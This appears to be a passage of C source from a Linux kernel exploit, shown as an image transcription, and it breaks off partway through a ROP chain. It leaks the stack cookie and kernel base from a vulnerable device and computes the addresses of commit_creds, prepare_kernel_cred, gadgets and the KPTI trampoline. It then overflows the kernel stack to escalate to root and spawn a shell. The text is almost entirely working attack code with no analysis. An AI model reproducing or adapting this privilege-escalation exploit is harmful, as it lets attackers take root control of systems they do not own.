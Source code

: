 
void leak_cookie() {
    uint8_t sz = 40;
    uint64_t leak[sz];
    printf("[*] trying to leak up to %ld bytes memory\n", sizeof(leak));
    uint64_t data = read(global_fd, leak, sizeof(leak));
    cookie = leak[cookie_off];
    printf("[+] leaked cookie 0x%lx at offset %d \n", cookie, cookie_off);
    kernel_base = leak[38] - 0x0a157UL;
    printf("[+] leaked kernel_base 0x%lx\n", kernel_base);
    prepare_kernel_cred = kernel_base + 0x4c67f0UL;   // the offset from /proc/kallsyms
    printf("[+] leaked prepare_kernel_cred 0x%lx\n", prepare_kernel_cred);
    commit_creds = kernel_base + 0x4c6410UL;
    printf("[+] leaked ksymtab_commit_creds 0x%lx\n", commit_creds);
    pop_rdi_ret = kernel_base + 0x00767cUL;     // pop rdi; ret
    mov_rdi_rax_movrsi_poprbp = kernel_base + 0x6bf203UL; // mov rdi, rax; mov [rsi+0x140], rdi; pop rbp; ret;
    swapgs_restore_regs_and_return_to_usermode = kernel_base + 0x200f10UL; // the offset from /proc/kallsym
}


void save_state(){
    __asm__(
        ".intel_syntax noprefix;"
        "mov user_cs, cs;"
        "mov user_ss, ss;"
        "mov user_sp, rsp;"
        "pushf;"
        "pop user_rflags;"
        ".att_syntax;"
    );
    puts("[*] Saved state");
}

void payload(){
    uid_t uid = getuid();
    if (uid == 0) {
        printf("[+] we are root (uid = %d)\n", uid);
    } else {
        printf("[!] we are not root (uid: %d)\n", uid);
        exit(-1);
    }
    execl("/bin/sh", "sh", NULL);
    exit(0);
}

uint64_t user_rip = (uint64_t) payload;     // the last part of our ROP chain

void overflow_stack(){
    uint8_t sz = 40;
    uint64_t payload[sz];
    payload[cookie_off++] = cookie;
    payload[cookie_off++] = (uint64_t) 0;  // RBX
    payload[cookie_off++] = (uint64_t) 0;  // R12
    payload[cookie_off++] = (uint64_t) 0;  // RBP
    payload[cookie_off++] = (uint64_t) pop_rdi_ret;
    payload[cookie_off++] = (uint64_t) 0;
    payload[cookie_off++] = (uint64_t) prepare_kernel_cred;  // prepare_kernel_cred(0)

    payload[cookie_off++] = (uint64_t) mov_rdi_rax_movrsi_poprbp;  // need to move result to rdi
    payload[cookie_off++] = (uint64_t) 0; // popped to ebp
    payload[cookie_off++] = (uint64_t) commit_creds; // commit_creds(prepare_kernel_cred(0))

    payload[cookie_off++] = (uint64_t) swapgs_restore_regs_and_return_to_usermode + 22; // KPTI trampoline, +22 jumps to the first mov, so we need dummy pops
    payload[cookie_off++] = (uint64_t) 0; // dummy RAX